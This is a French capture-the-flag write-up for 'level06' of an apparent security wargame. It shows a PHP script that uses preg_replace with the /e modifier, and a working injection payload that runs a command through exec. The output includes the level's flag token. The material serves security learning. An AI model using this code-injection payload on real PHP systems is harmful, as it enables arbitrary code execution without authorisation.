 On trouve dans le dossier **home** un binaire nommé **level06** et un fichier php nommé **level06.php** contenant le code suivant :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);	# Remplace \. par " x"
	$m = preg_replace("/@/", " y", $m);	# Remplace @ par " y"
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	# Le modificateur /e prend une chaîne de remplacement, et substitue le backslash suivi d'un nombre
	# et exécute la chaîne résultante comme s'il s'agissait de code PHP
	$a = preg_replace("/\[/", "(", $a);
	# Remplace [ par (
	$a = preg_replace("/\]/", ")", $a);
	# Remplace ) par )
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> La partie interessante dans le code est <code>/(\[x (.*)\])/e</code> car le **preg_replace** utilise le *modifier* **/e** ou **(PREG_REPLACE_EVAL)**, qui est connu pour être sensible aux injections (Il n'existe meme plus en PHP 7.0.0)

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit être formatée de la manière suivante :

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

L'injection permet de remplacer le <code>(.*)</code> par une commande, comme par exemple **getflag** :

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>

